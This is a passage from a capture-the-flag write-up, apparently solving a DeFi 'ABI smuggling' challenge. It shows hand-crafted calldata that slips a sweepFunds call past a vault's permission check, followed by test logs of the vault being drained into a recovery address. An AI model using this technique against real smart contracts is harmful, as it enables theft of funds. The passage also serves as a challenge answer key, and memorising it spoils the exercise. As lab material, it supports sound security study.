 ```solidity
        // craft the malicious calldata to bypass the permission check

        // 1cff79cd                                                         -> `execute` function signature
        // 0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 -> vault address
        // 0000000000000000000000000000000000000000000000000000000000000080 -> offset
        // 0000000000000000000000000000000000000000000000000000000000000044
        // d9caed1200000000000000000000000000000000000000000000000000000000
        // 0000000000000000000000000000000000000000000000000000000000000044 -> length
        // 85fb709d                                                         -> `sweepFunds` function signature
        // 00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea -> recovery address
        // 0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b -> token address

        (bool success,) = address(vault).call(
            hex"1cff79cd0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b26400000000000000000000000000000000000000000000000000000000000000800000000000000000000000000000000000000000000000000000000000000044d9caed1200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004485fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b"
        );
        require(success);

        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint("token balance in the vault", token.balanceOf(address(vault)), token.decimals());
        emit log_named_decimal_uint(
            "token balance in the recovery address", token.balanceOf(recovery), token.decimals()
        );
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // All tokens taken from the vault and deposited into the designated recovery account
        assertEq(token.balanceOf(address(vault)), 0, "Vault still has tokens");
        assertEq(token.balanceOf(recovery), VAULT_TOKEN_BALANCE, "Not enough tokens in recovery account");
    }
}
```

### Test Result

```
Ran 2 tests for test/abi-smuggling/ABISmuggling.t.sol:ABISmugglingChallenge
[PASS] test_abiSmuggling() (gas: 75890)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the vault: 1000000.000000000000000000
  token balance in the recovery address: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the vault: 0.000000000000000000
  token balance in the recovery address: 1000000.000000000000000000

[PASS] test_assertInitialState() (gas: 32734)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.51ms (1.02ms CPU time)

Ran 1 test suite in 231.64ms (1.51ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
